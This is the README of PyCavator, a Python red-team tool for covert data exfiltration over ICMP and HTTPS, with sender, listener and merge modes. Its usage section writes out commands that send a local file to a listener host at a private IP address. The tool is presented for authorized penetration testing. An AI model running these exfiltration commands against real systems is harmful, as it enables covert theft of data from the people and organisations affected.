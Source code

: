 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

### ICMP mode

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <bSender mode: exfiltrate data from a file</b><br/>
  python pycavator-icmp.py -f input.txt -d 192.168.1.101
  
  <bListener mode: listen for incoming data and save in chunks</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w c
  
  <bListener mode: listen for incoming data and save to a single file</b><br/>
  python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
  
  <bMerge mode: merge output files with part numbers in the specified range</b><br/>
  python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder


### HTTPS mode

<b>Required libraries:</b><br/>
- `argparse`: used for parsing command-line arguments<br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
  ```bash
  python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
  ```
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
  ```bash
  python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
  ``` 

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




